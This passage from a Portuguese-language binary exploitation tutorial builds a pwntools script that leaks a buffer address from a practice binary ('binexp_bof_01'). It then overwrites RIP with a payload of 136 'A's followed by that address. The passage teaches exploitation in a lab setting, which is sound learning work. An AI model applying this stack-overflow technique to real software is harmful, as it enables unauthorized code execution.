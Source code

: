 ```python
logging('buffer', addr)
```

No final, o *script* deve estar assim:

```python
#!/usr/bin/env python3

from pwn import *

def logging(msg, value):
    return success(': '.join([msg, hex(value)]))

p = gdb.debug('./binexp_bof_01', '''
    continue
''')

data = p.recvuntil(b': 0x')
data = p.recvuntil(b'\n')
addr = int(data[:-1], 16)
logging('buffer', addr)

payload = cyclic(180)
p.sendline(payload)

p.interactive()
```

Assim, quando executar o *script*, deve ser vista a mensagem informando qual o
endereço do `buffer`:

```
[+] buffer: 0x7ffdbd6f8810
```

Feito isso, basta usarmos esse valor para ser enviado ao programa no ponto que
será colocado em `RIP`. Podemos fazer isso ajustando nosso *payload* para ser
136 `A`s seguido do endereço de `buffer`:

```python
payload = b'A' * 136
payload += p64(addr)
p.sendline(payload)
```

> [!CAUTION]
> Utilizamos a função `p64()` do `pwntools` para que seja gerado um valor de 64
> bits a partir do parâmetro que enviamos para a função. Isso é relevante aqui
> para que seja enviado realmente 8 bytes, que é o endereço para ficar no topo
> da stack.
>
> Essa função também envia os dados utilizando a [endianess](https://en.wikipedia.org/wiki/Endianness)
> correta para o processo. Isso acontece pois o `pwntools` detecta qual é pelo 
> binário que será executado (pelo contexto do *script*), mas pode também ser configurado manualmente.
